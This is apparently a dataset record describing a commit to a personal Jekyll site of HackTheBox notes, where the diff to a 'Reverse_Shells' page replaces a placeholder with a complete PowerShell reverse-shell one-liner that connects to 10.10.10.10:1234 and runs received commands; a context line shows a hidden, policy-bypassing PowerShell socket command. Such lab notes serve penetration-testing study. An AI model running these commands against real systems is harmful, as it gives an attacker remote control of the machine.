

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md, in a window 1280 px wide. Shown: the top 794 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Shells.win

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
@@ -27,5 +27,5 @@ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sock
 ```
 
 ```
-test
+powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
 ```
````
